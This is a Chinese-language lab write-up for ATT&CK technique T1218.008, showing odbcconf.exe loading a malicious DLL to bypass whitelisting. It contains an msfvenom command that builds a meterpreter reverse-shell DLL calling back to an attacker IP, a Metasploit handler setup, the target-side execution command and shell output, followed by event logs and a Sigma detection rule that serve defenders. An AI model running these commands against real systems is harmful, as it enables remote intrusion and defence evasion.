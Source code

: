 # T1218-008-Win-使用Odbcconf.exe执行Payload（白名单）

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Odbcconf.exe是允许配置开放数据库连接（ODBC）驱动和数据源名称的Windows工具。攻击者也可能滥用此工具来执行动态链接库，就像带有REGSVR选项的Regsvr32一样。

odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\payload.dll}
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 2 opened (192.168.126.146:53 -> 192.168.126.149:49306) at 2020-04-18 20:45:29 +0800
[*] Session ID 2 (192.168.126.146:53 -> 192.168.126.149:49306) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rundll32.exe (912)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3820
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xfec
新进程名: C:\Windows\SysWOW64\odbcconf.exe

事件ID：4688
进程信息:
新进程 ID: 0x390
新进程名: C:\Windows\SysWOW64\rundll32.exe

sysmon日志
事件ID：1
Image: C:\Windows\SysWOW64\odbcconf.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: ODBC Driver Configuration Program
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: odbcconf.exe
CommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=B1C49B2159C237B1F2BCE2D40508113E39143F7B
ParentProcessGuid: {bb1f7c32-f65d-5e9a-0000-0010833eef00}
ParentProcessId: 3868
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

事件ID：1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=8939CF35447B22DD2C6E6F443446ACC1BF986D58
ParentProcessGuid: {bb1f7c32-f662-5e9a-0000-0010d648ef00}
ParentProcessId: 4076
ParentImage: C:\Windows\SysWOW64\odbcconf.exe
ParentCommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
```

## 检测规则/思路

### sigma规则

```yml
title: Application Whitelisting Bypass via DLL Loaded by odbcconf.exe
description: Detects defence evasion attempt via odbcconf.exe execution to load DLL
status: experimental
references:
    - https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Odbcconf.yml
    - https://twitter.com/Hexacorn/status/1187143326673330176
author: Kirill Kiryanov, Beyu Denis, Daniil Yugoslavskiy, oscd.community
date: 2019/10/25
modified: 2019/11/07
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1218
logsource:
    category: process_creation
    product: windows
detection:
    selection_1:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - '-f'
            - '/a'
            - 'regsvr'
    selection_2:
        ParentImage|endswith: '\odbcconf.exe'
        Image|endswith: '\rundll32.exe'
    condition: selection_1 or selection_2
level: medium
falsepositives:
    - Legitimate use of odbcconf.exe by legitimate user
```

### 建议

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-008

<https://attack.mitre.org/techniques/T1218/008/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>
